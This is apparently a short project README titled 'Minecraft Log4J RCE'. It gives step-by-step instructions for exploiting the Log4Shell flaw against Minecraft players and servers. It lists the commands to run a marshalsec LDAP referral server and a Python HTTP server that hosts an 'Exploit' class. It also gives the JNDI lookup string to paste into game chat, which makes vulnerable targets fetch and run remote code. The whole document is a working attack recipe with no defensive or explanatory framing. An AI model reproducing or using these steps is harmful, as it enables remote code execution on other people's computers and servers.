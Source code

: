 # Minecraft Log4J RCE

Requirements:
* a vps
* java (Duh)
* python
* marshalsec

How to run the exploit
* Run the following commands in the terminal `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://localhost:8888/#Exploit`
* Open a new terminal instance and run `python -m http.server 8888`
* Then send this in the chat `${jndi:ldap://ip:1389/#Exploit}`
